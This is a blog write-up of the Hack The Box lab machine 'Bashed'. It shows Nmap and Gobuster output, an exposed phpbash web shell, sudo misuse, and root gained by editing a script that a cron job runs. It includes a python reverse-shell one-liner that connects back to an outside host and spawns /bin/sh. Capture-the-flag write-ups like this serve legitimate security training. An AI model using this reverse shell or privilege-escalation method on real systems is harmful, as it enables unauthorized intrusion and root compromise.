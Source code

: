 ```yaml
---
layout: PostSimple
date: 2019-12-04
title:     "Hack The Box - Bashed"
tags: ['linux','easy','sudo','cron']
layout: PostSimple
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/1.png)

We are going to pwn Bashed from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/118>


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT   STATE SERVICE
80/tcp open  http


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only HTTP port is open so we can bruteforce the directories and find any way to the shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/2.png)

## Gobuster Results
```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/06 00:27:13 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2019/12/06 00:29:21 Finished
===============================================================
```

While checking the ``/dev`` there is an ``phpbash.php``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/3.png)

Found 2 users ``arrexel and scriptmanager`` and got user flag too.

## Getting Shell

Now its time to get reverse shell to expore more

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/4.png)
Netcat didnt worked so i tried some others and perl works

Reverse Shell Cheatsheet
>http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Copy and paste the command on the ``phpbash.php`` and listening on my machine <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/5.png)

## Privilege Escalation

Like always I started with ``sudo -l``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/6.png)

Looks like ``www-data`` can run any commands on the machine with the permission of ``scriptmanager`` without the password.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/7.png)

Now time to get root, I uploaded my Linux Enumeration Script and found some writeable scripts available. 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/8.png)

May be cronjob running on background so I started ``pspy``

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

My guess is correct! 

```bash
2019/12/04 07:46:01 CMD: UID=0    PID=2297   | python test.py

2019/12/04 07:46:01 CMD: UID=0    PID=2296   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```
I edited the script
 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/9.png)

```py
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Started my listener on my machine

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/10.png)

I got Root!
